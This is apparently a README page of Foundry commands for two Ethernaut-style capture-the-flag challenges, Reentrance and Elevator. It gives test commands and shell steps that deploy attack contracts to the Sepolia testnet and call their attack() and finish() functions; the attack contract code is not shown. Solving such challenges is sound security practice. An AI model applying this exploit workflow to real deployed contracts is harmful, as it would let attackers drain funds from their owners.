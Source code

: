 ## Reentrance

### Test

```shell
$ forge test -vvv --match-path "test/AttackReentrance*"
```

### Attack

```shell
$ forge create \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --constructor-args $ADDRESS_Reentrance \
    --interactive \
    src/AttackReentrance.sol:AttackReentrance
# MUST specify gas limit bigger then defaults. Otherwise TX will fail with OutOfGas
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --value 1000000gwei \
    --gas-limit 1200000 \
    --interactive \
    "$ADDRESS_AttackReentrance" \
    "attack()"
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    "$ADDRESS_AttackReentrance" \
    "finish()"
```

---

## Elevator

### Test

```shell
$ forge test -vvv --match-path "test/AttackElevator*"
```

### Attack

```shell
$ forge create \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    src/AttackElevator.sol:AttackElevator
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    "$ADDRESS_AttackElevator" \
    "attack(address)" "$ADDRESS_Elevator"
```

---